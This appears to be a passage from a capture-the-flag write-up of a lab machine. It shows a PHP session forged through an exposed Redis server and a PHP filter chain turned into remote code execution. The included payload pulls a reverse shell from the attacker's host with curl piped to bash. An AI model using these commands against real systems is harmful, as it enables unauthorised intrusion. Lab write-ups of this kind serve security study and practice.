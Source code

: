 When we authorize to `developers.collect.htb` it redirect to `/login.php` and creates a blank php session token.

From redis server, we can set `auth=true` in this blank session and authenticate to "developers" app.
```bash
10.10.11.192:6379> set PHPREDIS_SESSION:m5767e21hd2jkb0ra1sl8vg4h9 "auth|s:4:\"true\";"
```

![](screenshots/http-developers.collect.htb-home.png)

## PHP filter chain

Now we can use PHP filter chain in `page` param to get RCE, because it is inserting param value direct in the PHP `include()` function.

* https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html
* https://github.com/synacktiv/php_filter_chain_generator

There is Request-URI length limit, So we need to use a short payload to get  reverse shell -> ```<?= `curl 10.10.14.40:8000|bash` ;?>```
```bash
curl -s https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py | python - --chain '<?= `curl 10.10.14.40:8000|bash` ;?>'
```

* Host bash reverse shell in a `index.html` on http server.
